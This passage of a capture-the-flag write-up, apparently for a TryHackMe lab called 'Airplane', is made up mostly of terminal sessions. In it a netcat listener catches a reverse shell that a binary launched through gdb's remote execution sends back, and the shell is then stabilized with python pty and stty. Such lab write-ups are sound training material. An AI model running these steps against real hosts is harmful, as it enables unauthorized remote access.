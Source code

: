 ## Netcat

Now the listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...

```

Now we run it :

```bash
(gdb) set remote exec-file /tmp/binary.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /tmp/binary.elf from remote target...
Reading /tmp/binary.elf from remote target...
Reading symbols from target:/tmp/binary.elf...
(No debugging symbols found in target:/tmp/binary.elf)
[Detaching after fork from child process 2934]
[Inferior 1 (process 2933) exited normally]
```

And we have initial access :

```bash
 ┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...

connect to [10.8.162.183] from (UNKNOWN) [10.10.12.222] 40840
whoami
hudson
ls
airplane
```

## Shell Stabilization

We can do [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                
hudson@airplane:/opt$ ^Z                                                                                                      
zsh: suspended  nc -lvnp 1337                                                                                                 
                                                                                                                              
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
hudson@airplane:/opt$ 
```
